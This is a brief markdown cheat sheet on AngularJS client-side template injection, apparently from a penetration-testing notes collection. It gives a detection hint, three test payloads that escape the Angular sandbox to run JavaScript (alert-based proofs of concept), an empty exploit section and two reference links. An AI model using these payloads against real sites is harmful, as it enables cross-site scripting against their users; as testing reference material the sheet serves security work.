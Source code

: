 # Client Side Template Injection (CSTT)

# angularjs template injection

## detection

```
<body ng-app="">

```

## tests

```
{{1+1}}
{{constructor.constructor('alert(1)')()}}
{{'a'.constructor.fromCharCode=[].join; 'a'.constructor[0]='\\u003ciframe onload=alert(/Backdoored/)\\u003e';}}

```

## exploit

```

```

## links

- [http://ghostlulz.com/angularjs-client-side-template-injection-xss/](http://ghostlulz.com/angularjs-client-side-template-injection-xss/)
- [https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)